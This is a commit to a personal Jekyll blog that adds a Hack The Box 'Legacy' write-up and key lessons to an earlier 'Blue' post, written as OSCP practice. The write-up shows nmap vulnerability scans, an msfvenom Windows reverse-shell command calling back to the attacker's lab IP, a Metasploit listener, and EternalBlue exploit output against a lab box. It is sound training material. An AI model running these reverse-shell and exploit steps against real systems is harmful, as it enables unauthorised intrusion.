

Before and after one commit to Twigonometry/mac-goodwin.com, a Jekyll site: the page built from mac-goodwin/blog/index.html, in a window 1280 px wide and 900 px high, scrolled down 751 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 1449 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

Commit message:
Blue key lessons and legacy writeup

````diff
--- a/mac-goodwin/blog/HTB/_posts/2021-05-01-htb-blue.md
+++ b/mac-goodwin/blog/HTB/_posts/2021-05-01-htb-blue.md
@@ -18,6 +18,7 @@ custom_css: ['blogs']
 - [Eternal Blue](#eternal-blue)
   - [Editing the 42031 Exploit](#editing-the-42031-exploit)
   - [Working Exploit - 42315](#working-exploit---42315)
+- [Key Lessons](#key-lessons)
 
 # Overview
 In preparation for my OSCP, I have begun the long journey of completing all retired boxes, sorted by user-rated difficulty. Starting on the 1st May 2021, I am doing *Blue*.
@@ -530,3 +531,16 @@ And here are the flags:
 That's the box!
 
 ![](/assets/images/blogs/Pasted image 20210501205703.png)
+
+# Key Lessons
+
+Here are some of the key things I learned on this box:
+- Basic enumeration of SMB servers with `smbmap`
+- Null authentication, and authentication with specific named guest accounts
+- Use of the nmap `--script vuln` flag to scan for vulnerabilities
+- Important skills running Python scripts written in different versions of Python, and installing packets for specific Python versions
+- Enumeration of named pipes using the Metasploit `auxiliary/scanner/smb/pipe_auditor` module
+- Generation of shellcode for windows platforms with `msfvenom`
+- Configuration of the Eternal Blue exploit to match the specific named pipes and SMB login credentials for a target machine
+
+Although this is the easiest box on Hack the Box, it taught me an awful lot!
--- /dev/null
+++ b/mac-goodwin/blog/HTB/_posts/2021-05-02-htb-legacy.md
@@ -0,0 +1,341 @@
+---
+layout: post
+layout: default
+title: "Legacy"
+description: "My writeup for the HacktheBox Legacy Machine, another simple box that requires exploiting Eternal Blue on Windows XP."
+category_string: "Hack the Box (HTB)"
+custom_css: ['blogs']
+---
+
+# Contents
+- [Overview](#overview)
+  - [Ratings](#ratings)
+- [Tags](#tags)
+- [Enumeration](#enumeration)
+  - [nmap](#nmap)
+- [Eternal Blue](#eternal-blue)
+- [Key Lessons](#key-lessons)
+
+# Overview
+
+This is the second box in my OSCP prep series.
+
+**Box Details**
+
+|IP|User-Rated Difficulty|OS|Date Started|Date Completed|
+|---|---|---|---|---|
+|10.10.10.4|2.5|Windows (XP)|2021-05-02|2021-05-02|
+
+---
+
+This box was also super simple. It involved exploiting Eternal Blue on an old Windows XP machine. The only difference between it and [Blue](https://mac-goodwin.com/blog/htb/2021/05/01/htb-blue.html) was the operating system and SMB username. I had rooted it within 40 minutes, and a good chunk of that time was spent documenting the process.
+
+## Ratings
+
+I rated both user and root a 1 for difficulty. The exploit was incredibly simple, and there was no privesc involved.
+
+# Tags
+
+#writeup #oscp-prep #windows #cve #no-metasploit
+
+# Enumeration
+
+## nmap
+
+I started out with the standard `nmap` scan, using `-Pn` to not send ping probes:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ nmap -v -sC -sV -Pn -oA nmap/ 10.10.10.4
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:15 BST
+NSE: Loaded 153 scripts for scanning.
+NSE: Script Pre-scanning.
+Initiating NSE at 10:15
+Completed NSE at 10:15, 0.00s elapsed
+Initiating NSE at 10:15
+Completed NSE at 10:15, 0.00s elapsed
+Initiating NSE at 10:15
+Completed NSE at 10:15, 0.00s elapsed
+Initiating Parallel DNS resolution of 1 host. at 10:15
+Completed Parallel DNS resolution of 1 host. at 10:15, 0.02s elapsed
+Initiating Connect Scan at 10:15
+Scanning 10.10.10.4 [1000 ports]
+Discovered open port 139/tcp on 10.10.10.4
+Discovered open port 445/tcp on 10.10.10.4
+Completed Connect Scan at 10:15, 6.23s elapsed (1000 total ports)
+Initiating Service scan at 10:15
+Scanning 2 services on 10.10.10.4
+Completed Service scan at 10:15, 6.10s elapsed (2 services on 1 host)
+NSE: Script scanning 10.10.10.4.
+Initiating NSE at 10:15
+Completed NSE at 10:16, 50.97s elapsed
+Initiating NSE at 10:16
+Completed NSE at 10:16, 0.00s elapsed
+Initiating NSE at 10:16
+Completed NSE at 10:16, 0.00s elapsed
+Nmap scan report for 10.10.10.4
+Host is up (0.027s latency).
+Not shown: 997 filtered ports
+PORT     STATE  SERVICE       VERSION
+139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
+445/tcp  open   microsoft-ds  Windows XP microsoft-ds
+3389/tcp closed ms-wbt-server
+Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
+
+Host script results:
+|_clock-skew: mean: 5d00h31m33s, deviation: 2h07m16s, median: 4d23h01m33s
+| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c3:64 (VMware)
+| Names:
+|   LEGACY<00>           Flags: <unique><active>
+|   HTB<00>              Flags: <group><active>
+|   LEGACY<20>           Flags: <unique><active>
+|   HTB<1e>              Flags: <group><active>
+|   HTB<1d>              Flags: <unique><active>
+|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
+| smb-os-discovery:
+|   OS: Windows XP (Windows 2000 LAN Manager)
+|   OS CPE: cpe:/o:microsoft:windows_xp::-
+|   Computer name: legacy
+|   NetBIOS computer name: LEGACY\x00
+|   Workgroup: HTB\x00
+|_  System time: 2021-05-07T14:17:22+03:00
+| smb-security-mode:
+|   account_used: <blank>
+|   authentication_level: user
+|   challenge_response: supported
+|_  message_signing: disabled (dangerous, but default)
+|_smb2-time: Protocol negotiation failed (SMB2)
+
+NSE: Script Post-scanning.
+Initiating NSE at 10:16
+Completed NSE at 10:16, 0.00s elapsed
+Initiating NSE at 10:16
+Completed NSE at 10:16, 0.00s elapsed
+Initiating NSE at 10:16
+Completed NSE at 10:16, 0.00s elapsed
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 64.23 seconds
+```
+
+This reveals the box name to be `LEGACY` and the Operating System to be Windows XP. The only ports open are 139 for `netbios` and 445 for `SMB`.
+
+While this was running, in another pane I started a full port scan with a `sleep 300` so it would start after five minutes:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ nmap -Pn -p- -oA nmap/all-ports 10.10.10.4
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:21 BST
+Nmap scan report for 10.10.10.4
+Host is up (0.020s latency).
+Not shown: 65532 filtered ports
+PORT     STATE  SERVICE
+139/tcp  open   netbios-ssn
+445/tcp  open   microsoft-ds
+3389/tcp closed ms-wbt-server
+
+Nmap done: 1 IP address (1 host up) scanned in 118.06 seconds
+```
+
+There were no new ports.
+
+As this was an old operating system and port 445 was open, I ran a `vuln` nmap scan to check if the system was vulnerable to [Eternal Blue](#cve-2017-0143):
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ nmap -Pn --script vuln 10.10.10.4 -p 445
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:19 BST
+Nmap scan report for 10.10.10.4
+Host is up (0.030s latency).
+
+PORT    STATE SERVICE
+445/tcp open  microsoft-ds
+
+Host script results:
+|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
+| smb-vuln-ms08-067:
+|   VULNERABLE:
+|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
+|     State: VULNERABLE
+|     IDs:  CVE:CVE-2008-4250
+|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
+|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
+|           code via a crafted RPC request that triggers the overflow during path canonicalization.
+|
+|     Disclosure date: 2008-10-23
+|     References:
+|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
+|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
+|_smb-vuln-ms10-054: false
+|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
+| smb-vuln-ms17-010:
+|   VULNERABLE:
+|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
+|     State: VULNERABLE
+|     IDs:  CVE:CVE-2017-0143
+|     Risk factor: HIGH
+|       A critical remote code execution vulnerability exists in Microsoft SMBv1
+|        servers (ms17-010).
+|
+|     Disclosure date: 2017-03-14
+|     References:
+|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
+|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
+|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
+
+Nmap done: 1 IP address (1 host up) scanned in 24.65 seconds
+```
+
+Sure enough, it was!
+
+# Eternal Blue
+
+We already had an exploit we could use from when we did [Blue](#writeups/hack-the-box/boxes/blue/10---eternal-blue).
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ cp ../blue/exploit.py .
+```
+
+The only thing we needed to potentially change was the username. I checked the `nmap` scan, and it showed no username was used to login.
+
+I quickly tried connecting to port 445 to check this behaviour was correct. I wanted to list the shares so I knew which one to connect to, but all of the methods I tried gave a timeout error:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ smbclient -L \\10.10.10.4
+protocol negotiation failed: NT_STATUS_IO_TIMEOUT
+──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ smbclient -L 10.10.10.4 \\\\legacy\\shares
+protocol negotiation failed: NT_STATUS_IO_TIMEOUT
+```
+
+So I just tried connecting with `smbmap`:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ smbmap -H 10.10.10.4 -u "" -p ""
+[+] IP: 10.10.10.4:445	Name: 10.10.10.4
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ smbmap -H 10.10.10.4 -u null -p ""
+[!] Authentication error on 10.10.10.4
+```
+
+It looks like giving a literal blank username is what we want. So I edited `exploit.py`:
+
+![](/assets/images/blogs/Pasted image 20210502103619.png)
+
+I also had to copy across `mysmb.py`:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ cp ../blue/mysmb.py .
+```
+
+Then I needed a payload. I did a search for windows payloads to see if there were any specific Windows XP ones:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ msfvenom -l payload | grep windows
+```
+
+It looked like there weren't, so I went for the most generic one:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o shell.exe
+[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
+[-] No arch selected, selecting arch: x86 from the payload
+No encoder specified, outputting raw payload
+Payload size: 324 bytes
+Final size of exe file: 73802 bytes
+Saved as: shell.exe
+```
+
+I then edited the script to upload the new payload:
+
+![](/assets/images/blogs/Pasted image 20210502104328.png)
+
+I then started a listener:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ msfconsole -q
+msf6 > use exploit/multi/handler
+[*] Using configured payload generic/shell_reverse_tcp
+msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
+payload => windows/shell_reverse_tcp
+msf6 exploit(multi/handler) > set lhost tun0
+lhost => tun0
+msf6 exploit(multi/handler) > set lport 9001
+lport => 9001
+msf6 exploit(multi/handler) > run
+
+[*] Started reverse TCP handler on 10.10.14.6:9001
+```
+
+I wanted to see if the exploit worked without selecting a named pipe in advance, as it seemed to have a method to find one. So I ran it just specifying the IP:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/legacy]
+└─$ python2 exploit.py 10.10.10.4
+Target OS: Windows 5.1
+Using named pipe: spoolss
+Groom packets
+attempt controlling next transaction on x86
+success controlling one transaction
+modify parameter count to 0xffffffff to be able to write backward
+leak next transaction
+CONNECTION: 0x8209e3c8
+SESSION: 0xe10af840
+FLINK: 0x7bd48
+InData: 0x7ae28
+MID: 0xa
+TRANS1: 0x78b50
+TRANS2: 0x7ac90
+modify transaction struct for arbitrary read/write
+make this SMB session to be SYSTEM
+current TOKEN addr: 0xe11ffcf8
+userAndGroupCount: 0x3
+userAndGroupsAddr: 0xe11ffd98
+overwriting token UserAndGroups
+Opening SVCManager on 10.10.10.4.....
+Creating service WtPn.....
+Starting service WtPn.....
+The NETBIOS connection with the remote host timed out.
+Removing service WtPn.....
+ServiceExec Error on: 10.10.10.4
+nca_s_proto_error
+Done
+```
+
+And I got a shell almost instantly:
+
+![](/assets/images/blogs/Pasted image 20210502104816.png)
+
+It seems `whoami` wasn't a command on Windows XP. I tried:
+
+```bash
+C:\WINDOWS\system32>echo %USERNAME%
+echo %USERNAME%
+%USERNAME%
+```
+
+But got nothing. So I just went digging for the flags instead.
+
+![](/assets/images/blogs/Pasted image 20210502105024.png)
+
+![](/assets/images/blogs/Pasted image 20210502105053.png)
+
+That's the box!
+
+![](/assets/images/blogs/Pasted image 20210502105629.png)
+
+# Key Lessons
+
+Here are some of the key things I learned on this box:
+- Modifying Eternal Blue to use blank usernames when connecting to SMB
+- Using Eternal Blue against Windows XP machines
````
Also changed, not shown: mac-goodwin/assets/images/blogs/Pasted image 20210502103619.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210502104328.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210502104816.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210502105024.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210502105053.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210502105629.png (added).
